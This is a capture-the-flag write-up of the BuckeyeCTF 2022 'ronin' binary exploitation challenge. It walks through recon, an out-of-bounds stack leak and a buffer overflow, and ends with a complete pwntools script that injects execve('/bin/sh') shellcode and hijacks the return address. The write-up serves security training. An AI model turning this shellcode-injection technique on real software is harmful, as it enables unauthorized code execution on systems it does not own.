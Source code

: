 # BuckeyeCTF2022 Ronin Challenge | Thomas Spencer

> Category `pwn` | Difficulty: `medium`

# Recon

## File

`
ronin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=eb4ccdef02a96139df6de419cbc283e0f26f1d85, for GNU/Linux 3.2.0, not stripped
`

## Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

NX, RWX, and no canary means we probably can do a shellcode injection!


# Functions

## Main

* Asks for user input

    * No buffer overflow

* Progress if we enter the string `"Chase after it."` as the first bit of our input

    * This means we can fill the rest of the buffer (size 80) with whatever we want!

## Chase

* Entered by typing `"Chase after it."` in `main`

* Has a local array of 4 strings


> "The treeline ends, and you see beautiful mountains in the distance. No monkey here.\n";

> "Tall, thick trees surround you. You can't see a thing. Best to go back.\n";

> "You found the monkey! You continue your pursuit.\n";

> "You find a clearing with a cute lake, but nothing else. Turning around.\n";


* Function takes in a user input, and will call the `search` with the chosen string

* Only checks if the user choice is less than 4

    * This means we can input a negative value since our input is a signed integer

## Search

* Will just print out the text from the previous function

    * Unless the user input was 2 (find monkey string), then we go into the encounter function

    * **Notice: after the encounter function call is an `exit(0)` call!**

## Encounter

* Clears the input

* Prints out some text

* Uses `fgets(s, 49, stdin)` on a buffer of size `32`

    * This means we can overflow saved RBP and saved RIP only


# Vulnerabilites

* Buffer Overflow in `encounter` function

    * Will have to be last because of the `exit(0)` call afterwards

* Out of bounds read on the string array in `chase`

    * Only negative values allowed

    * Output will be simply printed out, and we can keep looping this indefinetly

# Plan of Attack

* NX enabled and RWX means we should make some shellcode. A simple `execl('/bin/bash', ...)` will do

* We'll have to leak the stack address (particularily of the array in main) to find our shellcode

    * Will have to be done with the out of bound read in `chase`

# Exploit Outline

* Enter main, put `"Chase after it."` + `shellcode` as our input

* Run through `search` with a valid string to seed the stack with proper data

* Run through `search` again with a negative offset to leak saved RBP

    * This saved RBP will be for the `chase` function!

* Use the leak to find the address of our shellcode

* Enter `encounter` and overflow RIP to jump to our shellcode

* Profit B)

# TODO:

* Need to figure out why the offset is saved RBP to shellcode offset is `0x50`

* Need to figure out why the offset to leak the saved RBP is `(0x10 + 0x8 + 0x8) // 0x8 = 4`

# Final Script

```python
#!/bin/env python3
from pwn import *

FILE = "./ronin"

DEBUG = False 

context.arch = "amd64"
context.encoding = "latin"

if (DEBUG):
	context.log_level = "debug"

warnings.simplefilter("ignore")

shellcode = asm("\n".join([
	"xor rax, rax",
	"push rax",
	"mov rax, 0x3b",
	"lea rdi, [rip+binsh]",
	"push rdi",
	"mov rsi, rsp",
	"xor rdx, rdx",
	"syscall",
	"binsh:",
	".string \"/bin/sh\"",
]))

LEAK_OFFSET = 0x10 + 0x8 + 0x8
SHELLCODE_OFFSET = 0x50 - len(b'Chase after it.')

p = process([FILE])

if (DEBUG):
	input("Attach Now!")

# Part 1, inject shellcode
p.recvuntil(b'You look up to see a monkey wielding your sword! What will you do?')
p.sendline(b'Chase after it.' + shellcode)

# Part 2, seed stack
p.recvuntil(b'far. Which way will you look? ')
p.sendline(b'0')

# Part 3, leak data
p.recvuntil(b'The treeline ends, and you see beautiful mountains in the distance. No monkey here.\n')
p.sendline(str(-LEAK_OFFSET // 8).encode())

RBPLEAK = p.recv(8)
RBPLEAK = int.from_bytes(RBPLEAK, "little")
print(hex(RBPLEAK))

# Part 4, Overflow
p.sendline(b'2')
p.recvuntil(b'This monkey can talk. "Tell me a joke." ')

payload  = b'A'*0x20
payload += b'B'*0x8
payload += p64(RBPLEAK - SHELLCODE_OFFSET)

p.sendline(payload)

p.interactive()
p.close()
```
